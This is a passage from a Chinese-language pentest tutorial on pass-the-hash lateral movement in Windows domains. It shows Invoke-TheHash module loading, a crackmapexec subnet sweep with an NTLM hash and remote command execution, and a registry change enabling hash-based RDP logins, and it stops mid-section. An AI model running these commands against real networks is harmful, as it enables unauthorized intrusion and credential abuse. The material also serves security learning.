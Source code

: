 方式很多，但遵循的原理就那一个。  

![](https://gitee.com/fuli009/images/raw/master/public/20210810085737.png)批量PTH  

在域环境中，用户登录计算机时使用的大都是域账号，大量计算机在安装时会使用相同的本地管理员账号和密码。因此，如果计算机的本地管理员账号和密码也是相同的，攻击者就可以使用哈希传递的方法登录到内网主机的其他计算机.

powershell脚本批量PTH：  

![]()

  

https://github.com/Kevin-Robertson/Invoke-TheHash本地加载后使用

  *   * 

    
    
    Import-Module .\Invoke-WMIExec.ps1 Import-Module .\Invoke-TheHash.ps1

  

  

  

 **crackmapexec批量PTH：  
**

![](https://gitee.com/fuli009/images/raw/master/public/20210810085754.png)

  * 

    
    
     crackmapexec smb 192.168.52.0/24 -u administrator -H 2b07f7b579bb97532a9eb37753765d8f -d tubai.com -x hostname

msf中也可以，改一下RHOSTS为整个段即可，方式很多。

![](https://gitee.com/fuli009/images/raw/master/public/20210810085737.png)PTH对方机器的3389服务  

利用苛刻。

前提条件：需要目标机器的本地管理员权限

开启Restricted Admin mode适用系统：

高版本只支持 Windows 8.1和Windows Server 2012 R2 默认开启Restricted Admin mode

低版本需要打补丁， Windows 7 和Windows Server 2008 R2 默认不支持，需要安装补丁2871997、2973351

默认没开启的话可以改注册表开启Restricted Admin mode：  

  * 

    
    
    REG ADD HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f

  

将已经获得的`hash`注入至`mstsc`进程中：:  
